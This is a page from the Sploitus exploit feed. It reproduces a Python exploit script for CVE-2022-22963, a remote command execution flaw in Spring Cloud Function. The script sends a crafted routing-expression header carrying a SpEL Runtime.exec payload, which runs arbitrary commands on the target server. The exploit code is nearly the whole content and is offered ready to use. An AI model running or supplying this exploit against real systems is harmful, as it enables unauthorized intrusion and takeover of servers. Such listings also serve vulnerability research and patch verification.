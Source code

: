 ```yaml
---
title: Spring Cloud 3.2.2 Remote Command Execution exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173430&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-13
fetch_date: 2025-10-04T11:51:14.492276
---
```


# Spring Cloud 3.2.2 Remote Command Execution exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Spring Cloud 3.2.2 Remote Command Execution CVE-2022-22963

2023-07-12 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173430
# Exploit Title: Spring Cloud 3.2.2 - Remote Command Execution (RCE)
# Date: 07/07/2023
# Exploit Author: GatoGamer1155, 0bfxgh0st
# Vendor Homepage: https://spring.io/projects/spring-cloud-function/
# Description: Exploit to execute commands exploiting CVE-2022-22963
# Software Link: https://spring.io/projects/spring-cloud-function
# CVE: CVE-2022-22963

import requests, argparse, json

parser = argparse.ArgumentParser()
parser.add_argument("--url", type=str, help="http://172.17.0.2:8080/functionRouter", required=True)
parser.add_argument("--command", type=str, help="ping -c1 172.17.0.1", required=True)
args = parser.parse_args()

print("\n\033[0;37m[\033[0;33m!\033[0;37m] It is possible that the output of the injected command is not reflected in the response, to validate if the server is vulnerable run a ping or curl to the attacking host\n")

headers = {"spring.cloud.function.routing-expression": 'T(java.lang.Runtime).getRuntime().exec("%s")' % args.command }
data = {"data": ""}

request = requests.post(args.url, data=data, headers=headers)
response = json.dumps(json.loads(request.text), indent=2)
print(response)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)